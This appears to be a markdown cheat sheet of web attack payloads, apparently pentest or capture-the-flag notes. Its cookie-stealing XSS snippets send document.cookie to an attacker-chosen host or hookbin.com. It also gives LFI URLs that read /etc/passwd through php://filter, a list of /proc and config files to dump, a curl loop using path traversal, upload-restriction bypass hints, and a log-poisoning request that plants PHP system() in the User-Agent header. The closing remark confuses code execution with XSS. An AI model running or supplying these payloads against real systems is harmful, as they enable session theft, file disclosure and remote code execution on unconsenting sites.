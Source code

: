 ### COOKIE STEALING WITH XSS
> to steal a cookie a location to recieve the results is required, local ip or hookbin.com works well
```html
<script>var i=new Image;i.src="http://[IP OR DOMAIN : PORT]/?"+document.cookie;</script>
<script>document.location='http://[IP OR DOMAIN : PORT]/?'+document.cookie;</script>
<script>document.location=http://[IP OR DOMAIN : PORT]/?+document.cookie;</script>
```

## LOCAL FILE INCLUSION (LFI)
```php
include
require
include_once 
require_once
```
> these PHP functions might lead to LFI. It is possible to read files without executing them (like PHP likes to do) or send data like so:
```url
http://domain/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
http://domain/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==
```
> Use LFI to gather information about the system and processes
```
/proc/self/stat - get pid, parent pid
/proc/self/cmdline - get commandline of current process
/proc/self/environ - get environment variables
/proc/self/exe - get binary
/etc/nginx/sites-enabled/default - find other web servers on the system
```
> retrieve all information about all processes:
```bash
for i in $(seq 0 1000); do curl http://[URL]?page=../../../../proc/${i}/cmdline --output - > ${i}; done
```

## FILE UPLOAD
> Try to avoid file extensions restrictions ( see [hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-file-extensions-checks)  ).
> Try placing following files to avoid restrictions
```
.htaccess       # apache
web.config      # IIS, can execute code
```

## LOG POISONING
```http
GET / HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: <?php system('ls /');?>
```
> sending this request can write <?php system('ls /');?> to the log file (e.g. at var/log/nginx/access.log), when accessing the log file via LFI, this can lead to XSS execution
